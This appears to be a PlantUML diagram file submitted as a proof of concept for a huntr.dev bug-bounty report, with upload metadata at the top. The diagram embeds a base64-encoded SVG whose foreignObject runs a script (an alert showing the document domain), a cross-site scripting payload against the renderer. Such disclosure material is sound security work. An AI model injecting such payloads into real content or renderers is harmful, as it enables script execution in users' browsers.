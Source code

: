 {
  "sha1": "e6j0z5rlynal4eg873u9f0yo6gklhnz",
  "insertion": {
    "when": "2024-06-01T09:03:04.062Z",
    "url": "https://huntr.dev/bounties/27db9509-6cd3-4148-8d70-5942f3837604/?token=5c7d2751d2b44cd1d11aee1044994b917b6a6c7b7125e028f55490416421e5db2a1afed16efff737167c216ba35d70603ab3cf7b9cfec62934cdfe6e5c26e443a3e76ee17746db5ddc42cccb931cf35bd8a39bb98ce56b2cf8317534578c117b07dd7b8db418f78c785123d9202ce8e59dfc706f985a8822e07ea6",
    "user": "plantuml@gmail.com"
  }
}
@startuml
start
: aasdf <img src="data:image/svg+xml;base64,PHN2ZyB3aWR0aD0iMTAwIiBoZWlnaHQ9IjEwMCI+CiAgICA8Zm9yZWlnbk9iamVjdCB3aWR0aD0iMTAwJSIgaGVpZ2h0PSIxMDAlIj4KICAgICAgICA8c2NyaXB0PmFsZXJ0KGRvY3VtZW50LmRvbWFpbik7PC9zY3JpcHQ+CiAgICA8L2ZvcmVpZ25PYmplY3Q+Cjwvc3ZnPg=="> ;
stop
@enduml
